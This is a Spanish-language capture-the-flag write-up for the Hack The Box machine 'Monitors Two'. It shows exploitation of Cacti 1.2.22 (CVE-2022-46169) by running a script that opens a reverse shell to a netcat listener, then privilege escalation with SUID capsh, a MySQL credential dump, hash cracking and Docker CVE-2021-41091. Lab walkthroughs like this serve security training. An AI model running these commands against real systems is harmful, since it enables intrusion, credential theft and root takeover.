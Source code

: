 ```yaml
---
#obsidian
banner: "/resources/banners/arknights.png"
banner_y: 0.29429
banner_icon: 📝
#blog
layout: post
title: MONITORS TWO WRITEUP.
subtitle: Resolucion de la maquina monitors two de HTB.
header-img: img/in-post/monitors_two/monitors-two.webp
header-style: image
header-mask: rgba(0, 0, 0, .4)
catalog: true
tags:
  - htb
  - docker-abuse
  - rce
  - password-cracking

---
```


  <!-- HTML Meta Tags -->
  <title>MONITORS TWO WRITEUP.</title>
  <meta name="description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:site_name" content="QuantumWavves">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

  <!-- Facebook Meta Tags -->
  <meta property="og:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta property="og:type" content="website">
  <meta property="og:title" content="MONITORS TWO WRITEUP.">
  <meta property="og:description" content="Resolución de la máquina monitors two de HTB.">
  <meta property="og:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">
  <meta property="og:image:width" content="200" />
  <meta property="og:image:height" content="200" />

  <!-- Twitter Meta Tags -->
  <meta name="twitter:card" content="summary_large_image">
  <meta property="twitter:domain" content="quantumwavves.github.io">
  <meta property="twitter:url" content="https://quantumwavves.github.io/2023/09/21/monitors-two/">
  <meta name="twitter:title" content="MONITORS TWO WRITEUP.">
  <meta name="twitter:description" content="Resolución de la máquina monitors two de HTB.">
  <meta name="twitter:image" content="https://quantumwavves.github.io/img/in-post/monitors_two/monitors-two.webp">

## Tools
- Python
- Netcat 
- John The Ripper
## Topics
- Remote Code Execution / Reverse Shell
- Docker
- CVE's 
- Privilege Escalation
- Password HASH cracking
- SSH

Hola, el dia de hoy vamos a resolver la maquina de monitors two de HTB.

Primero realizaremos un escaneo de reconocimiento con NMAP.

## Reconocimiento

```bash
sudo nmap -Pn -p- -A -T4 -oN scan.txt 10.10.11.211
```
Obtenemos el resultado del escaneo:

![nmap-scan](/img/in-post/monitors_two/nmap-scan.png)

Observamos que existen dos puertos abiertos, el 22 que corresponde al servicio de SSH y el 80 que corresponde al servicio de HTTP. Revisamos el puerto 80 a través del navegador.

![cacti-login](/img/in-post/monitors_two/cacti-login.png)

Observamos que es un login de Cacti, un software para el monitoreo de red. Probamos contraseñas  que estan por defecto sin tener exito. Sin embargo podemos buscar CVE para la versión 1.2.22 de cacti, misma que nos muestra en el login.

## RCE / Reverse Shell

Después de una búsqueda encontramos una CVE para la versión 1.2.22.

- [CVE 2022-46169](https://cve.mitre.org/cgi-bin/cvename.cgi?name=VE-2022-46169)

Buscando encontre el siguiente script que nos ayuda con la RCE y nos brinda una reverse shell.

-  [FredBrave CVE-2022-46169](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

Utilizare Netcat con los siguientes flags -n para que no haga resolucion de dns, -l para estar a la escucha, -v de verbose y -p que indica el puerto, en este caso 443:

```bash
sudo nc -nlvp 443
```

Utilizando el script para la RCE podremos obtener la reverse shell.

```bash
python3 CVE-2022-46169.py -u http://10.10.11.211 --LHOST 10.10.16.79 --LPORT=443
```

![python-script](/img/in-post/monitors_two/python-script.png)

Ahora obtenemos la reverse shell a través del puerto 443.

![reverse-shell](/img/in-post/monitors_two/reverse-shell.png)

## Escalada de privilegios

Utilizaremos esta herramienta para enumerar los binarios SUID.

- [LinEnum](https://github.com/rebootuser/LinEnum)

Crearemos un servidor web para poder acceder al recurso.

![webserver](/img/in-post/monitors_two/python-webserver.png)

Obtenemos el recurso con wget.

![wget-source](/img/in-post/monitors_two/wget-source.png)

Le damos permisos de ejecucion.

```bash
chmod +x LinEnum.sh
  ```

![LinEnum-Permission](/img/in-post/monitors_two/linenum-permission.png)

Una vez ejecutado el script nos listara los archivos SUID, nos interesa el archivo ``/sbin/capsh``. ¿Por que nos interesa este archivo? Principalmente por que no pierde privilegios heredados, por que lo que puede funcionar nos como puerta trasera. Mas sobre este archivo:

- [gtfobins](https://gtfobins.github.io/gtfobins/capsh/)

![suid-enum](/img/in-post/monitors_two/suid-files.png)

Nos dirigimos a la ruta ``/sbin`` donde se encuentra el archivo capsh y ejecutaremos el siguiente comando para poder escalar privilegios.

```bash
./capsh --gid=0 --uid=0 --
```

![capsh](/img/in-post/monitors_two/capsh.png)

## Obteniendo credenciales

Observamos que mysql esta dentro del contenedor, utilizamos el siguiente comando para listar a los usuarios root.

```bash
mysql --host=db --user=root --password=root cacti -e "SELECT * FROM user_auth"
```

<img src="/img/in-post/monitors_two/mysql.png" onclick="window.open(this.src)">

Vemos que existe un usuario ``marcus`` y nos da un hash del password del usuario.

## Cracking Hash Password

Utilizaremos john the ripper para encontrar una coincidencia con un diccionario.

![john](/img/in-post/monitors_two/john.png)

Vemos que ha encontrado una posible coincidencia.

## Logeandose por ssh

Intentaremos acceder por ssh introduciendo las credenciales del usuario marcus.

![ssh-auth](/img/in-post/monitors_two/ssh-auth.png)

Y listo, tenemos acceso desde el usuario ``marcus``.

![login](/img/in-post/monitors_two/ssh-login.png)

## Escalando privilegios

Listaremos la version de docker que se esta utilizando.

![docker-v](/img/in-post/monitors_two/docker-v.png)

Vemos que es la version ``20.10.5+dfsg1``, buscaremos alguna CVE que pueda ayudarnos con la escalada de privilegios. Después de una busqueda encontre un script que nos ayuda con esta CVE.

- [Mitre CVE 2021-41091](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-41091)
- [CVE-2021-41091](https://github.com/UncleJ4ck/CVE-2021-41091)

Para poder usar este script necesitamos volver al contenedor y asignar a /bin/bash permisos de suid.

![bash](/img/in-post/monitors_two/bash-u+s.png)

Exponemos el recurso con un servidor web como lo hicimos anteriormente.

![wget-exp](/img/in-post/monitors_two/wget-exp.png)

Le damos permisos de ejecucion para poder utilizarlo. 

![exp=permission](/img/in-post/monitors_two/exp-permission.png)

Despues de la ejecucion vemos que nos arroja un path: <br> ``/var/lib/docker/overlay2/c41d5854e4bd996e128d647cb526b73d04c9ad6325201c85f73fdba372cb2f1/merged``.

![exp-exe](/img/in-post/monitors_two/exp-exe.png)

Nos dirigimos a ese directorio y ejecutamos el siguiente comando para obtener la shell en root.

```bash
./bin/bash -p
```

![powned](/img/in-post/monitors_two/powned.png)

Y listo, ahora somos root.

![furina](https://media.tenor.com/oY3PFmGbo98AAAAC/furina-genshin.gif)

Eso ha sido todo por el post, si piensas que me he equivocado en la informacion o en que he omitido algo que pueda mejorar el post, puedes contactarme por discord ```quantumwavves```
